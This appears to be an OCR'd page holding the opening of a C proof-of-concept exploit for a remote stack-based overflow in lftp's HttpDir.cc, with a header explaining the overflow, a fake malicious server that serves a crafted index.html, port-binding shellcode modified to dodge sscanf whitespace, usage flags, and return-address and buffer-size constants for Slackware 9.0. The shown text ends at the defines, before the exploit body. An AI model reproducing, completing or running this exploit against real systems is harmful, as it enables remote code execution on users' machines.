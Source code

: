 EXP
---

    /*
     * lftp remote stack-based overflow exploit by Li0n7 voila fr
     *
     * Vulnerability discovered by Ulf Harnhammar Ulf.Harnhammar.9485 student uu se
     *
     * Lftp versions later than 2.6.10 are prone to a remotly exploitable stack-based
     * overflow in try_netscape_proxy() and try_squid_eplf( (src/HttpDir.cc). This
     * bad coded proof-of-concept demonstrates the exploitation by exploiting the
     * vulnerable function try_netscape_proxy() (HttpDir.cc:358) and it needs more targets
     * to be efficient. Please note that this vulnerability is really hard to exploit
     * since lots of parameters come into play and are different from a platform to another,
     * for we have to overwrite some variables and registers before overwriting eip.
     * With some time and lot of patience, you should find your own parameters by using
     * GDB. Params to edit are marked with a '!' in the POC code. Moreover, I have edited
     * Bighawk's port binding shellcode not to contain any white character such as \r,\t,\v,
     * \f,\n or \20 because we are exploiting a sscanf function.
     *
     * usage: ./lftp-exp [-f <path>][-p <port>][-r <ret>][-t <target>]
     * -f <path>: create <path>index.html
     * -p <port>: run a fake lftp server on port <port> (default: 80)
     * -r <ret>: return address you would like to use
     * -t <target>: choose the target among the platforms available
     * Platforms supported are:
     * num: 0 - slack 9.0 - 0xbffff770
     *
     * For instance: ./lftp-exp -p 80 -t 0
     * ./lftp-exp -f / -t 0
     *
     * A poil !
     */

    #include <stdio.h>
    #include <unistd.h>
    #include <netdb.h>
    #include <netinet/in.h>
    #include <errno.h>
    #include <fcntl.h>
    #include <unistd.h>

    #define BUFFERSIZE 117 /*!*/
    #define SIZE 256

    #define D_BACK 26112
    #define D_RET 0xbffff770
    #define D_PORT 80

    #define DUMMY1 0xbffff140 /*!*/
    #define DUMMY2 0xbffff810 /*!*/

    #define OK "cd ok, cwd=/\n"
